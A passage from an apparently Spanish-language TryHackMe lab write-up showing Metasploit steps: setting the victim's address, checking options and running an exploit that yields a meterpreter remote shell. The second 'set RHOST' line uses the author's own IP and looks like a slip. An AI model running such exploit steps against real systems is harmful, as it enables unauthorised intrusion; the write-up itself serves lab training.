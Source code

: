 
- Tengo que introducir la IP de la máquina victima y cambiar mi IP, porque al estar en TRYHACME me da otro rango la IP `10.2.37.7`. NO HAY QUE PONERSE A LA ESCUCHA. Me da directamente un `meterpreter`. 
```
set RHOST 10.10.65.129
```
```
set RHOST 10.2.37.7
```
```
show options
```
<p align="center">
    <img src="../img/Pasted_image_20240818214751.png" width="500">
</p>

#### 6- Ejecutar el exploit
```
run
```
<p align="center">
    <img src="../img/Pasted_image_20240818214841.png" width="500">